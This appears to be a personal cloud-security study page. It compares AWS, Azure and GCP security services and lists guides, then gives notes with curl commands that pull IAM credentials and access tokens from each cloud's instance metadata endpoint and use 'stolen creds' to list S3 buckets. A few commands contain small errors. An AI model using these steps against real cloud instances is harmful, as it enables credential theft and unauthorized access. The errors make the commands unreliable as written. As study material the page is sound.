 | AWS Security Services            | Azure Security Services         | GCP Security Services            |
|-----------------------------------|---------------------------------|----------------------------------|
| 1. AWS Identity and Access Management (IAM) | 1. Azure Active Directory (AAD) | 1. Cloud Identity and Access Management (IAM) |
| 2. AWS Organizations             | 2. Azure Policy                | 2. GCP Organization Policy       |
| 3. AWS Resource Access Manager (RAM) | 3. Azure Resource Locks       | 3. GCP Resource Manager          |
| 4. AWS Security Token Service (STS) | 4. Azure Managed Identities   | 4. GCP Secret Manager            |
| 5. AWS Key Management Service (KMS) | 5. Azure Key Vault            | 5. Google Cloud KMS              |
| 6. AWS Secrets Manager          | 6. Azure Private Link          | 6. GCP VPC Service Controls      |
| 7. AWS Single Sign-On (SSO)     | 7. Azure AD B2C               | 7. GCP Identity Platform          |
| 8. AWS Cognito                  | 8. Azure AD Domain Services    | 8. GCP Identity-Aware Proxy (IAP) |
| 9. AWS GuardDuty                | 9. Azure Sentinel              | 9. GCP Event Threat Detection    |
| 10. AWS Inspector               | 10. Azure Security Center      | 10. GCP Security Command Center   |
| 11. AWS Shield                  | 11. Azure DDoS Protection      | 11. GCP Cloud Armor              |
| 12. AWS Web Application Firewall (WAF) | 12. Azure Web Application Firewall | 12. GCP Cloud CDN Security Policies |
| 13. AWS Firewall Manager        | 13. Azure Firewall Manager     | 13. GCP Firewall Rules Logging    |
| 14. AWS Certificate Manager (ACM) | 14. Azure App Service Certificates | 14. GCP Managed SSL Certificates |
| 15. AWS CloudTrail              | 15. Azure Monitor              | 15. GCP Cloud Audit Logs         |
| 16. AWS Config                  | 16. Azure Log Analytics        | 16. GCP Security Scanner          |
| 17. AWS CloudWatch              | 17. Azure Network Watcher      | 17. GCP Network Intelligence Center |
| 18. AWS Trusted Advisor         | 18. Azure Advisor              | 18. GCP Recommender              |


# Guides, Guidelines, 
CSA - Cloud control matrix - https://cloudsecurityalliance.org/research/cloud-controls-matrix/
CIS benchmark guide for individual clouds
Cloud center of excellence (CCoE)
Mitre ATT&CK Cloud matrix - https://attack.mitre.org/matrices/enterprise/cloud/

## Notes
- VM Service accounts/Instance Metadata Service (IMDS) - EC2 - Instance profile, Azure - Managed identity, GCP - Service account
- 
##### AWS
- Get security group ```curl –s "http://169.254.169.254/latest/meta-data/securitygroups/"```
- List of security creds saved in AWS - ```http://169.254.169.254/latest/meta-data/iam/security-credentials/```
- Get AUTH token ```TOKEN=$(curl -s -X PUT -H "X-aws-ec2-metadata-token-ttl-seconds:21600" http://169.254.169.254/latest/api/token)```
- Use AUTH token in the request ```curl -H "X-aws-ec2-metadata-token: $TOKEN"http://169.254.169.254/latest/meta-data/iam/security-credentials/sec510-ec2```
- AWS AUTH using stlen creds
```
$ export AWS_ACCESS_KEY_ID="ASIA54BL6PJR3MV6PUNZ"
$ export AWS_SECRET_ACCESS_KEY="S0M6vF4UmMlfmV5B/bM2lTzocsSWMMHRI"
$ export AWS_SESSION_TOKEN="IQoJb3JpZjEJ...3QtMSJEQCIykQYitLv8Vg=="

$ aws s3api list-buckets
```

##### Azure 
- JWT for accessing the storage service ```curl "http://169.254.169.254/metadata/identity/oauth2/token?apiversion=2018-02-01&resource=https://storage.azure.com/" -H "Metadata: true"```

##### GCP
- Get network security group ```curl -s -H "Metadata-Flavor: Google" http://metadata.google.internal/computeMetadata/v1/instance/machine-type```
- Get access token (depricated but might work) ```curl "http://metadata.google.internal/0.1/meta-data/serviceaccounts/default/acquire"```
- Get access token (beta, might not work) ```curl "http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token"```
- Get service token ```curl -s -H "Metadata-Flavor: Google" "http://metadata.google.internal/computeMetadata/v1/instance/serviceaccounts/default/token```
- Get the scope of service token - ```http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes```
- 
